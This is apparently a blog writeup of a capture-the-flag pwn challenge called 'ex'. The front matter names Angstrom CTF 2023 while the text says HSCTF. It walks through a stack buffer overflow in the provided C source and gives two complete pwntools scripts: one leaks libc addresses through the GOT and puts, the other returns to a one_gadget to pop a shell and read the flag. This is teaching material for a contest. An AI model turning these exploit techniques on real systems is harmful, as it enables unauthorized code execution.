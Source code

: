 ```yaml
---
title: ex Writeup - Angstrom CTF 2023
date: 2023-06-14
description: 
tags: [writeups, ctfs, pwn]
---
```


I recently competed in HSCTF and placed 3rd in the high school division with my team `sl1th3r`. I was asked to make a writeup for this challenge for verification and decided to also just put it on here (more filler for my blog :D).

# The Challenge
{{< zoom-img src="img/chall.png" >}}

We're provided two files, the binary and the source code. The provided source can be seen below.

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

int main(int argc, char** argv) {
	char input[24];
	char filename[24] = "\0";
	char buffer[128];
	FILE* f = NULL;
	setvbuf(stdout, 0, 2, 0);
	setvbuf(stdin, 0, 2, 0);
	if (argc > 1) {
		strncpy(filename, argv[1], 23);
	}
	while (1) {
		fgets(input, 128, stdin);
		input[strcspn(input, "\n")] = 0;
		if (input[0] == 'Q') {
			return 0;
		} else if (input[0] == 'f') {
			if (strlen(input) >= 3) {
				strcpy(filename, input + 2);
			}

			if (filename[0] == '\0') {
				puts("?");
			} else {
				puts(filename);
			}
		} else if (input[0] == 'l') {
			if (filename[0] == '\0') {
				puts("?");
			} else {
				if (strchr(filename, '/') != NULL) {
					puts("?");
					continue;
				}

				f = fopen(filename, "r");
				if (f == NULL) {
					puts("?");
					continue;
				}
				while (fgets(buffer, 128, f)) {
					printf("%s", buffer);
				}
				fclose(f);
			}
		} else {
			puts("?");
		}
	}
}
```

Obviously, theres one line here that sticks out.

```c
fgets(input, 128, stdin);
```

Now we have a pretty good direction of where to go for this challenge. Now we can check the protections on the binary to see if we'll need to do anything extra.

```
Arch:     amd64-64-little
RELRO:    Partial RELRO
Stack:    No canary found
NX:       NX enabled
PIE:      No PIE (0x400000)
```

Everything looks great. No annoying canary to deal with and no weird leaks needed, right?

After looking through gadgets in the binary, there's nothing we can really do with them. That only leaves us with one more choice, using libc gadgets. But how can we do that if we aren't given a libc to work with? Well, we're able to leak the addresses of specific functions by passing its address in the GOT as an argument to `puts`. And I also recently happened to find out about a cool site ([libc.blukat.me](https://libc.blukat.me/)) that allows us to give it two addresses of functions and it'll tell us the libc. It does this by comparing the offsets between the two functions to other libc's and seeing what matches. We're able to leak two libc addresses using the following script.

```py
from pwn import *

elf = context.binary = ELF("./ex")

if args.REMOTE:
    io = remote("ex.hsctf.com", 1337)
else:
    io = process("./ex")

pop_rdi = p64(0x00000000004014f3)

def leak_addr(name):
    return pop_rdi+p64(elf.got[name])+p64(elf.plt["puts"])

payload = b'Q'+b'a'*39
payload += leak_addr("__libc_start_main")
payload += leak_addr("puts")
payload += p64(elf.symbols["main"])

io.sendline(payload)

print(elf.got)

leak1 = u64(io.recvline(keepends=False)+b'\x00\x00')
leak2 = u64(io.recvline(keepends=False)+b'\x00\x00')

print(hex(leak1))
print(hex(leak2))

io.interactive()
```

Using this, we get the following output on remote.

```
0x7f4a76cd8f90
0x7f4a76d39420
```

Inputting these values into the site I mentioned earlier, we get only one possible result.

{{< zoom-img src="img/libc-result.png" >}}

Thankfully the site also lets us download the libc. Using this, we can now use a basic libc leak to return to a one_gadget present in the libc.

I used the following script for this.

```py
from pwn import *

elf = context.binary = ELF("./ex")

libc = ELF("./libc.so.6")

if args.REMOTE:
    io = remote("ex.hsctf.com", 1337)
else:
    io = process("./ex")

pop_rnum = p64(0x00000000004014ec)
pop_rdi = p64(0x00000000004014f3)
one_gadget = 0xe3afe

payload = b'Q'+b'a'*39
payload += pop_rdi
payload += p64(elf.got["puts"])
payload += p64(elf.plt["puts"])
payload += p64(elf.symbols["main"])

io.sendline(payload)

leak = u64(io.recvline()[:-1]+b"\x00\x00")

libc.address = leak - libc.symbols["puts"]

print(hex(libc.address+one_gadget))

payload = b'Q'+b'a'*39
payload += pop_rnum
payload += p64(0)
payload += p64(0)
payload += p64(0)
payload += p64(0)
payload += p64(libc.address+one_gadget)

io.sendline(payload)

io.interactive()
```

I'm not sure why, but for some reason this script only works around 1/2 of the time? I can't really test why locally (my computer hates when I used a different libc on a binary) but if the script works then I guess theres no reason to complain. After popping shell, I check the root directory since I knew the flag wasn't going to be in the local directory (then you could just read it without the whole exploit) and there it was.

```
bin
boot
dev
etc
flag.txt
home
lib
lib32
lib64
libx32
media
mnt
opt
proc
root
run
sbin
srv
sys
tmp
usr
var
```

Running `cat /flag.txt` gives us our flag :D

`flag{I_wonder_if_there's_an_emacs_command_for_writing_pwn_exploits?}`
